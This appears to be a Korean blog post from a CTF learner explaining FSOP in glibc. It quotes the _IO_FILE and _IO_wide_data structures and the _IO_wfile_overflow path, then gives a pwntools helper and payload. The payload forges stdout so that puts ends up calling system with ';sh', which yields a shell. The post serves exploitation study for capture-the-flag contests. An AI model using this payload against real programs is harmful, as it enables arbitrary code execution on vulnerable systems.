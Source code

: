 이 세상에 FSOP 문제는 널리고 널렸지만 영어를 못하는 나는 질 좋은 FSOP 학습 자료를 볼 기회가 별로 없었다.

최근에 FSOP 문제가 너무나 눈에 띄었다. 2024 CCE Quals에서도 FSOP만 알고 있었다면 2시간 만에 풀 수 있었다. 특수한 상황에서만이 아니라, 일반적인(드림핵 4~6렙) 문제 접근에 성공하고 익스할 때, 항상 뭔가 막히면 FSOP 때문이었다.

FSOP까지만 제대로 알아도 든든한 웹이나 암호학 해커와 함께라면 2인으로도 청소년부 본선은 쉽게 갈 것 같다.

dreamhack-invitational-quals 채널에서 값진 문장 하나를 발견했다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDhfMTEy/MDAxNzI4MzgyMTI0OTQx.c4dKOzCF48mwK2HPrs_Bn3XrTqRmaS9GWU4jeQCFl7Qg.im4cxWpwjrNbvScnCdsv17NQvkbVdoK9va1Rjv5upsMg.PNG/SE-96dbf2d6-529c-46e4-8fa2-0c672038f7d8.png?type=w1)


\_IO\_FILE 구조체와 \_IO\_wfile\_overflow에 대해 분석해보면 될 것 같다.

---

# \_IO\_wide\_data

glibc 버전이 높아지면서 vtable을 변조하면 IO_validate_vtable에 의해 걸리므로, \_wide\_vtable을 사용해야 한다.

\_IO\_FILE 구조체를 살펴보면

```C
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_wide_data *_wide_data;
```

여기에 \_IO\_wide\_data 가 있음을 알 수 있다.

```C
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

여기서 \_wide\_vtable을 확인할 수 있다. 즉, fp->\_wide\_data->\_wide\_vtable을 변조할 수 있다면 항상 익스 가능하다.

---

# \_IO\_wfile\_overflow

이제 함수를 분석해보자.

```C
wint_t
_IO_wfile_overflow (f, wch)
     _IO_FILE *f;
     wint_t wch;
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  ...
}
libc_hidden_def (_IO_wfile_overflow)
```

\_IO\_wdoallocbuf(f)를 실행시키고자 한다.

if (f->\_flags & \_IO\_NO\_WRITES) 를 만족하지 않아야 한다.

if ((f->\_flags & \_IO\_CURRENTLY\_PUTTING) == 0) 를 만족해야 한다.

if (f->\_wide\_data->\_IO\_write\_base == 0) 를 만족해야 한다.

모두 만족했다면, 해당 함수로 들어간다.

```C
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

\_IO\_WDOALLOCATE (fp)를 실행시키고자 한다.

if (fp->\_wid\e_data->\_IO\_buf\_base) 를 만족하지 않아야 한다.

if (!(fp->\_flags & \_IO\_UNBUFFERED)) 을 만족해야 한다. ( (fp->\_flags & \_IO\_UNBUFFERED) == 0 )

이 때 \_IO\_WDOALLOCATE은 \_IO\_wide\_data의 vtable을 참조하는 매크로이다. 따라서 FSOP가 성립한다.

문제에서 접근할 때, puts, write, scanf는 내부적으로 vtable의 함수를 호출하는데 이들을 잘 조작해서 \_IO\_wfile\_overflow가 호출되도록 하면 된다. \_IO\_wfile\_overflow는 \_IO\_validate\_vtable에 걸리지 않는 유효한 범위에 있으므로 가능하다.

한 줄로 정리하자면 fp -> \_wide\_data(변조) -> \_wide\_vtable(변조) -> one_gadget or system with fp = ';sh'

---

puts를 기준으로 정리해보자.

```python
def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)
```

puts는 내부적으로 *vtable + 0x38에 있는 _IO_new_file_xsputn를 호출한다. 우리는 *_IO_wfile_jumps + 0x18에 있는 _IO_wfile_overflow을 호출할 것이므로, vtable을 *_IO_wfile_jumps - 0x20으로 하면 offset을 맞출 수 있다.

*_wide_data의 offset은 자유롭게 설정할 수 있지만, -0x10이 가장 무난해보인다. 이렇게 설정하면, _wide_vtable은 _unused2의 마지막 부분에 있게 되므로, 이를 *_IO_2_1_stdout_ - 0x8로 바꾼다. 여기서의 offset 또한 자유이지만 가장 직관적인 것을 선택했다.

_IO_WDOALLOCATE는 *wide_vtable + 0x68을 참조하는 매크로이다. 따라서 위와 같이 FSOP를 진행했다면 *_IO_2_1_stdout_ + 0x60(- 0x8 + 0x68)인 _markers 부분을 참조하는 것이다. 여기에 system함수나, one_gadget을 넣어 쉘을 딸 수 있다.